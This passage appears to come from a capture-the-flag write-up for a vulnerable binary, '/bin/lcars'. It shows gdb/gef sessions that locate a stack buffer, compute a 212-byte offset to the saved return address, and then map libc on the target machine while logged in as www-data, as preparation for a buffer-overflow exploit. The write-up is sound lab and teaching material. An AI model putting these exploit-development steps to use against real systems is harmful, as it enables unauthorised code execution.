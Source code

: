 ```
   <...>
```
`[*]` Setting breakpoint right after `printf`.
```
gef➤ break *0x56555af5
gef➤ c

<...>

Enter Security Override:
AAAAAAAAAAAAAA

Breakpoint 2, 0x56555af5 in main_menu ()

[ Legend: Modified register | Code | Heap | Stack | String ]

<...>
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf10│+0x0000: 0x56555ec8  →  "Rerouting Tertiary EPS Junctions: %s" ← $esp
0xffffcf14│+0x0004: 0xffffcff8  →  "AAAAAAAAAAAAAA"
0xffffcf18│+0x0008: 0xffffd0c8  →  0xffffd108  →  0xffffd138  →  0x00000000
0xffffcf1c│+0x000c: 0x56555882  →  <main_menu+36> sub esp, 0xc
0xffffcf20│+0x0010: 0xffffcf74  →  0x00000000
0xffffcf24│+0x0014: 0xffffcf70  →  0x00000000
0xffffcf28│+0x0018: 0x00000003
0xffffcf2c│+0x001c: 0x00000000
<...>
```
`[!]` Buffer starts at **0xffffcff8**.
```
gef➤  info frame
Stack level 0, frame at 0xffffd0d0:
 eip = 0x56555af5 in main_menu; saved eip = 0x56555c5f
 called by frame at 0xffffd110
 Arglist at 0xffffd0c8, args:
 Locals at 0xffffd0c8, Previous frame's sp is 0xffffd0d0
 Saved registers:
  ebx at 0xffffd0c4, ebp at 0xffffd0c8, eip at 0xffffd0cc
```
`[!]` EIP is at **0xffffd0cc**.
```
gef➤  p/d 0xffffd0cc - 0xffffcff8
$1 = 212
```
`[!]` Length of area we need to overwrite is **212**.

`[!]` *These were machine-independent calculations.* Moving to the target machine.
```
www-data@enterprise:/var/www/html/files$ gdb -q /bin/lcars
(gdb) break main
(gdb) run
Starting program: /bin/lcars

Breakpoint 1, 0x56555ca0 in main ()
(gdb) info proc map
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56557000     0x2000        0x0 /bin/lcars
	0x56557000 0x56558000     0x1000     0x1000 /bin/lcars
	0x56558000 0x56559000     0x1000     0x2000 /bin/lcars
	0xf7e11000 0xf7fc5000   0x1b4000        0x0 /lib/i386-linux-gnu/libc-2.24.so
	0xf7fc5000 0xf7fc7000     0x2000   0x1b3000 /lib/i386-linux-gnu/libc-2.24.so
	0xf7fc7000 0xf7fc8000     0x1000   0x1b5000 /lib/i386-linux-gnu/libc-2.24.so
	0xf7fc8000 0xf7fcb000     0x3000        0x0
```